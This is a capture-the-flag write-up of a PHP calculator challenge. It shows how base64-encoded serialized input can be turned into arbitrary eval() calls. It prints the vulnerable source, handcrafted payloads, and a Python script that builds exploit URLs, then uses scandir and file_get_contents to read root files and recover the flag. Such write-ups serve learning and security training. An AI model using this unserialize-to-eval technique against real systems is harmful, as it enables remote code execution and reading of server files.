 ## Overview
After opening the website, we are greeted with a simple calculator (obviously). Lets input ```1 + 2``` to the textbox.

```
Result:
1 + 2 = 3
```
As expected, 1 + 2 does equal to 3. The interesting part of this is the url. 

```103.185.38.238:17227/?input=YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30=```

It has some sort of encrypted input query that I assumed is base64. Let's try to decode the input with this script.

```python
import base64

query = "YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30="
query_b64 = base64.b64decode(query)
print(query_b64.decode("ascii"))
```
After running the script, we got this very interesting data.

```a:3:{i:0;s:3:"sum";i:1;s:1:"1";i:2;s:1:"2";}```

Let's dissect this data.

```
a:3  # Array of length 3
i:0 # Index of the array
s:3 # Size of this index's data
"sum" # The data on this index
```

Okay, that's very insightful. But, this is a web exploitation challenge. Let's look at the PHP of this website since this challenge is tagged PHP.

```php
<?php
function format_error($expre) {
    return "<p><b>Format error:</b> the input is given in wrong format!</p>";
}

function opp_error($expre) {
    return "<p><b>Operator error:</b> operator for ".$expre." is not available!</p>";
}

function sum($a, $b) {
    $result = strval(intval($a) + intval($b));
    return "<p><b>Result:</b><br>".$a." + ".$b." = ".$result."</p>";
}

function sub($a, $b) {
    $result = strval(intval($a) - intval($b));
    return "<p><b>Result:</b><br>".$a." - ".$b." = ".$result."</p>";
}

function mul($a, $b) {
    $result = strval(intval($a) * intval($b));
    return "<p><b>Result:</b><br>".$a." * ".$b." = ".$result."</p>";
}

function div($a, $b) {
    $result = strval(intval($a) / intval($b));
    return "<p><b>Result:</b><br>".$a." / ".$b." = ".$result."</p>";
}

function evalit($code) {
    return eval($code);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
    if (!empty($_GET["input"])) {
        $decoded = base64_decode($_GET["input"]);
        $out = unserialize($decoded);
        if ($out[2] != null) {
            $view = $out[0]($out[1], $out[2]);
            echo $view;
        }
        else {
            $view = $out[0]($out[1]);
            echo $view;
        }
    }
}

?>
```

The ```evalit``` function is definitely the key, since it can allow us to run code. But how can we input something to run the ```evalit``` function?

The ```sum``` function and other math functions have 2 arguments. So to run ```evalit```, we need to find other functions with only one argument. The easiest one to get is probably the ```format_error``` function. 

## Solution
Let's input random stuff and get the input query!

```
a:2:{i:0;s:12:"format_error";i:1;s:4:"asdf";}
```

Woah, the function's name is literally there! So let's just change the fuction name and input and let's see if it works!

```
a:2:{i:0;s:6:"evalit";i:1;s:20:"echo "Hello world!";";}
```

Next step is to encode it to base64 and put it in the url!

```
103.185.38.238:17227/?input=YToyOntpOjA7czo2OiJldmFsaXQiO2k6MTtzOjIwOiJlY2hvICJIZWxsbyB3b3JsZCEiOyI7fQ==
```

And voila! The hello world is there. Now what? Well, the description said there is some interesting stuff in root. So let's go there!
Let's scan the root directory using the ```scandir()``` syntax.

To make this easier, I created a python script to generate the url.

```python
import base64

payload = "echo join(', ', scandir('/'));"
query = "a:2:{i:0;s:6:\"evalit\";i:1;s:" + str(len(payload)) + ":\"" + payload + "\";}"
query_b64 = query.encode("ascii")
query_b64 = base64.b64encode(query_b64)
print(query)
print("103.185.38.238:17227/?input=" + query_b64.decode("ascii"))
```

After that, let's look at the output!

```., .., .dockerenv, Hey.txt, Heyhey.txt, Heyheyhey.txt, Heyheyheyhey.txt, bin, boot, dev, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var```

We see some txt files in there. It could be the flag! Let's try one of them.
Let's change the payload.

```
payload = "echo file_get_contents('/Hey.txt');"
Output: Sorry, wrong guy :v 
```

Bruh, let's try the next one.

```
payload = "echo file_get_contents('/Heyhey.txt');"
Output: Hai! Hai! (^_^)  
```

Still not it, the next one maybe?

```
payload = "echo file_get_contents('/Heyheyhey.txt');"
Output: COMPFEST14{welcome_to_the_root} 
```

And just like that, the flag is found!

##### solved by kawijayaa
